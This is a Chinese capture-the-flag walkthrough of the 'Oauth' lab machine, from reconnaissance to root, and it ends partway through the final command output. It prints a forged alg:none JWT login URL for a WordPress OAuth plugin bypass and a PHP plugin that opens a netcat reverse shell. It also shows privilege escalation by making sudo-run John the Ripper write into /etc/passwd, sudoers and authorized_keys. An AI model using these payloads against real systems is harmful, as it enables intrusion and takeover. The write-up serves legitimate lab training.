







| 作者     | 难度   | 平台    |
| -------- | ------ | ------- |
| sublarge | medium | mazesec |

## 信息收集

```sh
╭─ ~ ──────────────────────────────────────────────── INT ✘  4h 33m 6s  root@kali  06:59:02 
╰─ nmap 192.168.56.126 -p-
Starting Nmap 7.98 ( https://nmap.org ) at 2026-06-01 07:05 -0400
Nmap scan report for 192.168.56.126
Host is up (0.00066s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
MAC Address: 08:00:27:D5:46:80 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 17.58 seconds

╭─ ~ ────────────────────────────────────────────────────────── ✔  18s  root@kali  07:06:03 
╰─ nmap 192.168.56.126 -p22,80,8080 -A
Starting Nmap 7.98 ( https://nmap.org ) at 2026-06-01 07:06 -0400
WARNING: Service 192.168.56.126:8080 had already soft-matched rtsp, but now soft-matched sip; ignoring second value
Nmap scan report for 192.168.56.126
Host is up (0.0023s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 10.3 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.67
|_http-server-header: Apache/2.4.67 (Unix)
|_http-title: Did not follow redirect to http://oauth.dsz/
8080/tcp open  rtsp
|_rtsp-methods: ERROR: Script execution failed (use -d to debug)
| http-title: Keycloak Administration Console
|_Requested resource was http://192.168.56.126:8080/admin/master/console/
| http-robots.txt: 1 disallowed entry 
```

修改hosts文件：

```sh
# 添加内容
192.168.56.126 oauth.dsz
```

`hosts`：`C:\Windows\System32\drivers\etc`，linux 在 `/etc/hosts` 文件里修改。

> 这里可以了解一下这些端口运行服务的功能

访问：`http://oauth.dsz/`


WordPress 框架写的。

```sh
╭─ ~ ────────────────────────────────────────────────────────── ✔  15s  root@kali  07:24:03 
╰─ wpscan --url http://oauth.dsz/
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://oauth.dsz/ [192.168.56.126]
[+] Started: Mon Jun  1 07:24:45 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.67 (Unix)
 |  - X-Powered-By: PHP/8.3.31
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://oauth.dsz/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://oauth.dsz/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://oauth.dsz/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://oauth.dsz/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.9.4 identified (Outdated, released on 2026-03-11).
 | Found By: Rss Generator (Passive Detection)
 |  - http://oauth.dsz/?feed=rss2, <generator>https://wordpress.org/?v=6.9.4</generator>
 |  - http://oauth.dsz/?feed=comments-rss2, <generator>https://wordpress.org/?v=6.9.4</generator>

[+] WordPress theme in use: twentytwentyfive
 | Location: http://oauth.dsz/wp-content/themes/twentytwentyfive/
 | Last Updated: 2026-05-20T00:00:00.000Z
 | Readme: http://oauth.dsz/wp-content/themes/twentytwentyfive/readme.txt
 | [!] The version is out of date, the latest version is 1.5
 | [!] Directory listing is enabled
 | Style URL: http://oauth.dsz/wp-content/themes/twentytwentyfive/style.css
 | Style Name: Twenty Twenty-Five
 | Style URI: https://wordpress.org/themes/twentytwentyfive/
 | Description: Twenty Twenty-Five emphasizes simplicity and adaptability. It offers flexible design options, suppor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.4 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://oauth.dsz/wp-content/themes/twentytwentyfive/style.css, Match: 'Version: 1.4'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] miniorange-login-with-eve-online-google-facebook
 | Location: http://oauth.dsz/wp-content/plugins/miniorange-login-with-eve-online-google-facebook/
 | Last Updated: 2026-04-16T04:54:00.000Z
 | [!] The version is out of date, the latest version is 6.26.19
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 6.26.11 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://oauth.dsz/wp-content/plugins/miniorange-login-with-eve-online-google-facebook/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <===================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Jun  1 07:24:58 2026
[+] Requests Done: 171
[+] Cached Requests: 5
[+] Data Sent: 41.92 KB
[+] Data Received: 328.549 KB
[+] Memory used: 269.859 MB
[+] Elapsed time: 00:00:12
```

* WordPress version：6.9.4
* theme : `twentytwentyfive`，版本：`1.4`。
* Plugin : `miniorange-login-with-eve-online-google-facebook`，版本：`6.26.11`

WordPress 6.9.4 未发现任何严重的漏洞，插件`miniorange-login-with-eve-online-google-facebook` 6.26.11 存在漏洞。

搜索方式：`https://wpscan.com/plugin/你要搜索的插件名字/`，可以搜索到插件的历史漏洞。



`6.26.13` 版本之前存在一个严重的权限验证漏洞:

**OAuth Single Sign On < 6.26.13 - 认证绕过漏洞**

> 该插件存在加密签名验证不当的漏洞。原因是插件在 `get_resource_owner_from_id_token` 函数中处理 JWT 令牌时，**没有进行签名验证或校验**，直接进行了不安全处理。
>
> 这使得未经身份验证的攻击者可以绕过认证，访问任意现有用户账户（在某些配置下包括管理员账户），或者创建任意订阅者级别的账户。

> 韭菜 叶片的思路：下载源码，并告诉ai存在：OAuth Single Sign On < 6.26.13 - 认证绕过漏洞，让ai审计，可以大大提高漏洞利用的成功率。

## 漏洞利用

> 漏洞利用流程
>
> 伪造 JWT（alg: none，无签名验证）
>
> 
>
> `http://oauth.dsz/?code=test123&state=a2V5Y2xvYWs=&id_token=eyJhbGciOiJub25lIn0.eyJlbWFpbCI6ImFkbWluQG9hdXRoLmRzeiIsInN1YiI6IjEiLCJwcmVmZXJyZWRfdXNlcm5hbWUiOiJhZG1pbiIsIm5hbWUiOiJhZG1pbiIsImlzcyI6Imh0dHA6Ly9vYXV0aC5kc3o6ODA4MC9yZWFsbXMvd29yZHByZXNzLXNpdGUifQ.`
>
> 在浏览器访问：
>
> 
>
> 可以看到，已经进入了后台。
>

## 反向shell获取立足点

```php
<?php
/**
 * Plugin Name: Reverse Shell Plugin
 * Plugin URI: 
 * Description: Reverse Shell Plugin for penetration testing.
 * Version: 1.0
 * Author: Security Analyst
 * Author URI: http://www.example.com
 */
exec("busybox nc 192.168.56.101 39666 -e /bin/bash");
?>
```

编写一个插件，并压缩为zip格式。



点击这里



再点击这里，然后上传插件并启动。




启动之前，必须在kali上进行监听：

```sh
╭─ ~ ──────────────────────────────────────────────────────────────── ✔  root@kali  23:02:28 
╰─ nc -lvnp 39666
listening on [any] 39666 ...
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.126] 40969
id
uid=104(apache) gid=106(apache) groups=82(www-data),106(apache),106(apache)
env
PWD=/var/www/localhost/htdocs/wordpress/wp-admin
HOME=/root
TERM=linux
USER=root
SHLVL=3
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin
_=/usr/bin/env
export SHELL=/bin/bash
script -qc /bin/bash /dev/null
bash: /root/.bashrc: Permission denied
Oauth:/var/www/localhost/htdocs/wordpress/wp-admin$ export TERM=xterm
export TERM=xterm
Oauth:/var/www/localhost/htdocs/wordpress/wp-admin$ ^Z
[1]  + 1239 suspended  nc -lvnp 39666

╭─ ~ ────────────────────────────────────────────── TSTP ✘  1m 29s    root@kali  23:04:02 
╰─ stty raw -echo;fg
[1]  + 1239 continued  nc -lvnp 39666
                                     reset
Oauth:/var/www/localhost/htdocs/wordpress/wp-admin$ stty size
stty: standard input
Oauth:/var/www/localhost/htdocs/wordpress/wp-admin$ stty rows 37 columns 98
Oauth:/var/www/localhost/htdocs/wordpress/wp-admin$ 
```

## 系统内部信息收集

```sh
Oauth:/var/www/localhost/htdocs/wordpress/wp-admin$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
keycloak:x:102:103::/home/keycloak:/bin/bash
```

在`/var/www/localhost/htdocs/wordpress`，查看`wp-config.php`，可以获得数据库的一个用户`wpuser`和密码`wppass`，在`wordPress`数据库的`wp_users`表可以查看用户信息：

```mysql
+----+------------+-----------------------------------------------------------------+---------------+-----------------+------------------+---------------------+--------------------------------------------------------------+-------------+--------------+
| ID | user_login | user_pass                                                       | user_nicename | user_email      | user_url         | user_registered     | user_activation_key                                          | user_status | display_name |
+----+------------+-----------------------------------------------------------------+---------------+-----------------+------------------+---------------------+--------------------------------------------------------------+-------------+--------------+
|  1 | sublarge   | $wp$2y$10$fXkwhjebLy0jD3cp5G1uIuwqtu720.FYFhXbQrwHMiuiDb34yaina | sublarge      | admin@oauth.dsz | http://oauth.dsz | 2026-03-08 07:13:48 | 1780313905:$generic$h3g95FK5QUYF5u_UNwW7v-olEYO4zMvWDlgCwdUG |           0 | sublarge     |
+----+------------+-----------------------------------------------------------------+---------------+-----------------+------------------+---------------------+--------------------------------------------------------------+-------------+--------------+
1 row in set (0.000 sec)
```

在`/opt/keycloak-26.0.0/conf`，可以查看`keycloak`的配置信息，`PostgreSQL`被注释掉了，所以使用的默认的嵌入式数据库`h2`。

```sh
Oauth:/opt/keycloak-26.0.0/conf$ find / -user keycloak -type f 2>/dev/null
/opt/keycloak-26.0.0/data/h2/keycloakdb.mv.db
/opt/keycloak-26.0.0/data/h2/keycloakdb.trace.db
```

本来想从这里获取keycloak的密码，但是太难读了，是二进制格式的数据，并没有读取到密码。

```sh
Oauth:/home$ cd keycloak/
Oauth:/home/keycloak$ ls -al
total 20
drwxr-sr-x    2 keycloak keycloak      4096 Apr  9 10:55 .
drwxr-xr-x    3 root     root          4096 Apr  9 10:41 ..
-rw-r--r--    1 root     keycloak        73 Mar  9 15:17 ...
-rw-r--r--    1 root     keycloak        33 Apr  9 10:55 .profile
-rw-r--r--    1 root     keycloak        44 Mar  9 15:17 user.txt
Oauth:/home/keycloak$ cat user.txt
flag{user-dd5c07036f2975ff4bce568b6511d3bc}
```

我自己就只做到这里；接下来就是查看wp，看了一下，我才发现`...`：

```
Oauth:/home/keycloak$ cat ./...
Don't just crack user.txt; use John’s --rules to expand your horizons.
```

翻译：`不要只是破解 user.txt；用 John 的 --rules 来扩展你的视野。` 

`dd5c07036f2975ff4bce568b6511d3bc`是一段hash值，判断类型：

```sh
╭─ ~ ──────────────────────────────────────────────────────────────── ✔  root@kali  00:59:30 
╰─ hash-identifier dd5c07036f2975ff4bce568b6511d3bc
Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
# 后面的省略
```

也可以根据长度判断：`32`位，最常见的`32`位hash是md5。

```
╭─ /tmp/123 ───────────────────────────────────────────────────────── ✔  root@kali  01:13:00 
╰─ john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 hash
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
single           (?)     
1g 0:00:00:00 DONE (2026-06-02 01:13) 10.00g/s 7680p/s 7680c/s 7680C/s jeffrey..james1
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

解出来为：`single`。

`john` 的 `--rules` 可以对字典进行变形：

```sh
╭─ /tmp/123 ───────────────────────────────────────────────────────── ✔  root@kali  01:19:29 
╰─ vim user.txt                                    
# user.txt 的内容是：keycloak
╭─ /tmp/123 ──────────────────────────────────────────────────── ✔  8s  root@kali  01:20:28 
╰─ john --wordlist=user.txt --rules=single --stdout > pass.txt
Using default input encoding: UTF-8
Press 'q' or Ctrl-C to abort, almost any other key for status
897p 0:00:00:00 100.00% (2026-06-02 01:20) 14950p/s keycloak1900
╭─ /tmp/123 ───────────────────────────────────────────────────────── ✔  root@kali  01:20:36 
╰─ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.56.126 - - [02/Jun/2026 01:23:46] "GET /pass.txt HTTP/1.1" 200 -
# 靶机
Oauth:/tmp/tmp$ wget http://192.168.56.101:8000/pass.txt
Connecting to 192.168.56.101:8000 (192.168.56.101:8000)
saving to 'pass.txt'
pass.txt             100% |**************************************************|  9798  0:00:00 ETA
'pass.txt' saved

Oauth:/tmp/tmp$ wget http://192.168.56.101:8000/subrute.sh
Connecting to 192.168.56.101:8000 (192.168.56.101:8000)
saving to 'subrute.sh'
subrute.sh           100% |**************************************************|   431  0:00:00 ETA
'subrute.sh' saved

Oauth:/tmp/tmp$ bash subrute.sh 
: No such file or directoryt
subrute.sh: line 6: $'\r': command not found
subrute.sh: line 14: syntax error near unexpected token `}'
'ubrute.sh: line 14: `    } &
Oauth:/tmp/tmp$ dos2unix subrute.sh 
Oauth:/tmp/tmp$ bash subrute.sh keycloak pass.txt
[*] Progress: [576/897] !keycloak!
[+] FOUND => ;tib'[d;
Killed                     bash subrute.sh keycloak pass.txt
```

爆破出密码为：`;tib'[d;`

```sh
Oauth:/tmp/tmp$ su keycloak
Password: 
Oauth:/tmp/tmp$ id
uid=102(keycloak) gid=103(keycloak) groups=103(keycloak),103(keycloak)
Oauth:/tmp/tmp$ sudo -l
Matching Defaults entries for keycloak on Oauth:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for keycloak:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User keycloak may run the following commands on Oauth:
    (ALL) NOPASSWD: /usr/bin/john
```

本来想利用`Press`靶机的提权方法，最后发现john的写入无法覆盖掉目标文件，会报错，最后还是放弃了这个提权手法，尝试：韭菜-叶片的提权手法，我觉得他的思路，我可以理解。

## 权限提升

提权思路：john 在 爆破密码时，如果爆破正确，会将用户名和密码写入到`~/.john/john.pot` 文件里面，我们可以通过`--pot`指定任意路径，让john把我们构造的恶意内容写入到我们指定的任意文件。

```sh
╭─ ~/tools ────────────────────────────────────────────────────────── ✔  root@kali  01:48:04 
╰─ openssl passwd -1 -salt "so" "123456"
$1$so$WM4.wE1EeZcnUF30BnRkB/
#payload
$1$so$WM4.wE1EeZcnUF30BnRkB/:0:0:root:/root:/bin/bash

╭─ ~/tools ────────────────────────────────────────────────────────── ✔  root@kali  01:48:13 
╰─ echo -n '$1$so$WM4.wE1EeZcnUF30BnRkB/:0:0:root:/root:/bin/bash' | md5sum # -n 输出内容不加 \n
85efdaaaaba78e12b2fa7dce0b0444fc  -
# 先在keycloak 用户下尝试：
Oauth:/tmp$ echo '85efdaaaaba78e12b2fa7dce0b0444fc' > hash.txt
Oauth:/tmp$ echo '$1$so$WM4.wE1EeZcnUF30BnRkB/:0:0:root:/root:/bin/bash' > pass.txt
Oauth:/tmp$ john --wordlist=pass.txt --format=Raw-MD5 hash.txt
Created directory: /home/keycloak/.john
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate left, minimum 24 needed for performance.
$1$so$WM4.wE1EeZcnUF30BnRkB/:0:0:root:/root:/bin/bash (?)
1g 0:00:00:00 DONE (2026-06-02 13:54) 16.66g/s 16.66p/s 16.66c/s 16.66C/s $1$so$WM4.wE1EeZcnUF30BnRkB/:0:0:root:/root:/bin/bash
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
Oauth:/tmp$ cat ~/.john/john.pot
$dynamic_0$85efdaaaaba78e12b2fa7dce0b0444fc:$1$so$WM4.wE1EeZcnUF30BnRkB/:0:0:root:/root:/bin/bash
# 可以看到已经写入了。
Oauth:/tmp$ sudo john --wordlist=pass.txt --format=Raw-MD5 hash.txt --pot=/etc/passwd
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate left, minimum 24 needed for performance.
$1$so$WM4.wE1EeZcnUF30BnRkB/:0:0:root:/root:/bin/bash (?)
1g 0:00:00:00 DONE (2026-06-02 13:56) 12.50g/s 12.50p/s 12.50c/s 12.50C/s $1$so$WM4.wE1EeZcnUF30BnRkB/:0:0:root:/root:/bin/bash
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
Oauth:/tmp$ su '$dynamic_0$85efdaaaaba78e12b2fa7dce0b0444fc'
Password: 
Oauth:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

可以看到`提权成功`。

`scdyh` 的 提权思路和 `lnnn` 的 提权思路是相同的，只是最终写入的文件是不同的。

`scdyh` 的 提权思路：`john` 把密码爆破成功后，会以 `hash:密码` 的格式写入到 `~/.john/john.pot`文件里，`hash`对于我们来说是垃圾信息，`--field-separator-char=C   在输入文件和 pot 文件中用字符“C”代替“:”` ，利用`换行符`将`hash`和`密码隔开`。

```sh
keycloak ALL=(ALL:ALL) NOPASSWD: ALL
# NOPASSWD 后面的 : 不要忘记
```

这是我们的payload，生成hash值：

```sh
╭─ /tmp/123 ─────────────────────────────────────────────────────── 1 ✘  root@kali  06:18:32 
╰─ echo -n 'keycloak ALL=(ALL:ALL) NOPASSWD: ALL' | openssl md5
MD5(stdin)= 8f0df3c42c370aee963ce2f1d5d7f589


Oauth:/tmp$ echo '8f0df3c42c370aee963ce2f1d5d7f589' > hash.txt
Oauth:/tmp$ echo 'keycloak ALL=(ALL:ALL) NOPASSWD: ALL' > pass.txt
Oauth:/tmp$ john --wordlist=pass.txt --format=Raw-MD5 hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate left, minimum 24 needed for performance.
keycloak ALL=(ALL:ALL) NOPASSWD: ALL (?)
1g 0:00:00:00 DONE (2026-06-02 18:19) 25.00g/s 25.00p/s 25.00c/s 25.00C/s keycloak ALL=(ALL:ALL) NOPASSWD: ALL
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
Oauth:/tmp$ cat ~/.john/john.pot
$dynamic_0$85efdaaaaba78e12b2fa7dce0b0444fc:$1$so$WM4.wE1EeZcnUF30BnRkB/:0:0:root:/root:/bin/bash
$dynamic_0$8f0df3c42c370aee963ce2f1d5d7f589:keycloak ALL=(ALL:ALL) NOPASSWD: ALL
Oauth:/tmp$ sudo john --wordlist=pass.txt --format=Raw-MD5 hash.txt --field-separator-char=$'\n' --pot=/etc/sudoers.d/pwn_john
using field sep char '
' (0x0a)
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate left, minimum 24 needed for performance.
keycloak ALL=(ALL:ALL) NOPASSWD: ALL (?)
1g 0:00:00:00 DONE (2026-06-02 18:21) 33.33g/s 33.33p/s 33.33c/s 33.33C/s keycloak ALL=(ALL:ALL) NOPASSWD: ALL
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
Oauth:/tmp$ sudo bash
/etc/sudoers.d/pwn_john:1:44: syntax error
$dynamic_0$8f0df3c42c370aee963ce2f1d5d7f589
                                           ^
Oauth:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

发现确实会出现格式错误，只是警告出来，并没有终止代码执行。

还有测试的时候，发现了一些小bug : john 每种类型的hash都有自己的最大密码长度，如果你爆破的密码文件中某些密码长度大于最大长度，就只会截取最大密码长度的的字符用于爆破，比如：(你的密码长度刚好是42，最大密码长度也是42，只会截取到第42个字符再算hash用于爆破)，这个需要注意一下。

```sh
Oauth:/tmp# echo '$0$ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIfy3402O5EN6KOaInOukRh3bNQwoLDjEs88Wb+TuN3f root@kali' > hash.txt

Oauth:/tmp# echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIfy3402O5EN6KOaInOukRh3bNQwoLDjEs88Wb+TuN3f root@kali' > pass.txt

Oauth:/tmp# sudo john --wordlist=pass.txt --format=plaintext hash.txt --field-separator-char=$'\n' --pot=/root/.ssh/authorized_keys
/etc/sudoers.d/pwn_john:1:44: syntax error
$dynamic_0$8f0df3c42c370aee963ce2f1d5d7f589
                                           ^
using field sep char '
' (0x0a)
Using default input encoding: UTF-8
Loaded 1 password hash (plaintext, $0$ [n/a])
